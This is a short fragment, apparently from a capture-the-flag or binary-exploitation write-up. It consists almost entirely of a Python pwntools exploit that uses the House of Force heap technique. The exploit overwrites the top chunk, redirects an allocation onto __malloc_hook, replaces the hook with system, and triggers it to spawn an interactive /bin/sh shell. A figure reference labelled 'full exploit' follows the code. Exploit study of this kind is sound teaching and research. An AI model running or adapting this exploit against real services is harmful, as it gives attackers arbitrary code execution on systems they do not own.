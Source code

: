 ```python
  
  
# ---- House Of Force Set-Up ----  
malloc(40, b'\x41'*47)  
  
# ---- Point top chunk to __malloc_hook ----  
distance = libc.sym.__malloc_hook - (heap + 0x1330) - 0x10  
malloc(distance, 'dummy')  
  
# ---- Overwrite __malloc_hook with system ----  
malloc(24, p64(libc.sym.system))  
  
# ---- Point cmd at our name (/bin/sh) and call malloc to execute our overwritten hook ----  
cmd = heap + 0x1270  
p.recvuntil(b'>> ')  
p.sendline(b'1')  
p.recvuntil(b'>> ')  
p.sendline(str(cmd))  
  
p.interactive()
```

![full exploit](exploit_success.png)
